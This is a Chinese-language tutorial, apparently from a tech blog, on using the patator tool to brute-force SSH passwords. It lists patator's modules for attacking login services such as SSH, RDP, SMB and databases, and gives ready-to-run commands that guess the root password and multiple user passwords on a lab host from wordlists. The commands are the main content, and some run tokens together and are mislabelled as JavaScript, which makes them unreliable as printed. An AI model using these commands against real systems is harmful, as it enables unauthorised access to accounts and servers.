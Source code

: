 ### **使用patator暴力破解SSH密码**

#### **1.下载并安装patator**

代码语言：javascript

代码运行次数：0

运行

AI代码解释

```javascript
git clone https://github.com/lanjelot/patator.gitcd patatorpython setup.py install
```

#### **2.使用参数**

执行./patator.py即可获取详细的帮助信息

> Patator v0.7(https://github.com/lanjelot/patator) Usage: patator.py module —help

可用模块:

```
ftp_login : 暴力破解FTP
ssh_login : 暴力破解 SSH
telnet_login : 暴力破解 Telnet
smtp_login : 暴力破解 SMTP
smtp_vrfy : 使用SMTP VRFY进行枚举
smtp_rcpt : 使用 SMTP RCPTTO枚举合法用户
finger_lookup : 使用Finger枚举合法用户
http_fuzz : 暴力破解 HTTP
ajp_fuzz : 暴力破解 AJP
pop_login : 暴力破解 POP3
pop_passd : 暴力破解 poppassd(http://netwinsite.com/poppassd/)
imap_login : 暴力破解 IMAP4
ldap_login : 暴力破解 LDAP
smb_login : 暴力破解 SMB
smb_lookupsid : 暴力破解 SMB SID-lookup
rlogin_login : 暴力破解 rlogin
vmauthd_login : 暴力破解 VMware Authentication Daemon
mssql_login : 暴力破解 MSSQL
oracle_login : 暴力破解 Oracle
mysql_login : 暴力破解 MySQL
mysql_query : 暴力破解 MySQLqueries
rdp_login : 暴力破解 RDP(NLA)
pgsql_login : 暴力破解PostgreSQL
vnc_login : 暴力破解 VNC
dns_forward : 正向DNS 查询
dns_reverse : 反向 DNS 查询
snmp_login : 暴力破解 SNMPv1/2/3
ike_enum : 枚举 IKE 传输
unzip_pass : 暴力破解 ZIP加密文件
keystore_pass : 暴力破解Java keystore files的密码
sqlcipher_pass : 暴力破解加密数据库SQL Cipher的密码-
umbraco_crack : Crack Umbraco HMAC-SHA1 password hashes
tcp_fuzz : Fuzz TCP services
dummy_test : 测试模块
```

#### **3.实战破解**

**（1）查看详细帮助信息**

执行“./patator.pyssh_login –help“命令后即可获取其参数的详细使用信息，如图7所示，在ssh暴力破解模块ssh_login中需要设置host，port，user，password等参数。

![](https://ask.qcloudimg.com/http-save/yehe-1268449/o7rdo7eo55.jpeg)

图7查看帮助信息

**（2）执行单一用户密码破解**

对主机192.168.157.131，用户root，密码文件为/root/newpass.txt进行破解，如图8所示，破解成功后会显示SSH登录标识“SSH-2.0-OpenSSH_7.5p1Debian-10“，破解不成功会显示” Authentication failed. “提示信息，其破解时间为2秒，速度很快！

代码语言：javascript

代码运行次数：0

运行

AI代码解释

```javascript
./patator.py ssh_login host=192.168.157.131user=root password=FILE0 0=/root/newpass.txt
```

![](https://ask.qcloudimg.com/http-save/yehe-1268449/o7rdo7eo55.jpeg)

图8破解单一用户密码

（3）破解多个用户。用户文件为/root/user.txt，密码文件为/root/newpass.txt，破解效果如图9所示。

代码语言：javascript

代码运行次数：0

运行

AI代码解释

```javascript
./patator.py ssh_login host=192.168.157.131user=FILE1 1=/root/user.txt password=FILE0 0=/root/newpass.txt
```

![](https://ask.qcloudimg.com/http-save/yehe-1268449/tzl3ie60te.jpeg)

图9使用patator破解多用户的密码